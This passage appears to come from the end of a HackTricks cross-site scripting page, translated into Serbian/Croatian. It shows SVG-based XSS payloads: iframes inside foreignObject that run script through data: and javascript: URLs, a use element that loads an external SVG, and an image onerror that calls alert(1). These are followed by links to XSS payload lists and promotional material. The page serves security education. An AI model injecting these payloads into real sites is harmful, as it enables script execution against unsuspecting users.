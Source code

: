 ```svg
<svg width="500" height="500"
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<circle cx="50" cy="50" r="45" fill="green"
id="foo"/>

<foreignObject width="500" height="500">
<iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
<iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
</foreignObject>
</svg>
```

```html
<svg><use href="//portswigger-labs.net/use_element/upload.php#x"/></svg>
```

```xml
<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg' &gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
```

Pronađi **više SVG payloada na** [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

## Razne JS Trikovi & Relevantne Informacije

{% content-ref url="other-js-tricks.md" %}
[other-js-tricks.md](other-js-tricks.md)
{% endcontent-ref %}

## XSS resursi

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)
* [http://www.xss-payloads.com](http://www.xss-payloads.com) [https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt) [https://github.com/materaj/xss-list](https://github.com/materaj/xss-list)
* [https://github.com/ismailtasdelen/xss-payload-list](https://github.com/ismailtasdelen/xss-payload-list)
* [https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec](https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec)
* [https://netsec.expert/2020/02/01/xss-in-2020.html](https://netsec.expert/2020/02/01/xss-in-2020.html)

<figure><img src="https://github.com/carlospolop/hacktricks/blob/rs/.gitbook/assets/image%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1)%20(1).png" alt=""><figcaption></figcaption></figure>

Ako te zanima **hakerska karijera** i hakovanje neuhvatljivog - **zapošljavamo!** (_potrebno je tečno poznavanje poljskog jezika, kako pisano tako i govorno_).

{% embed url="https://www.stmcyber.com/careers" %}

<details><summary><strong>Nauči hakovanje AWS-a od početnika do stručnjaka sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
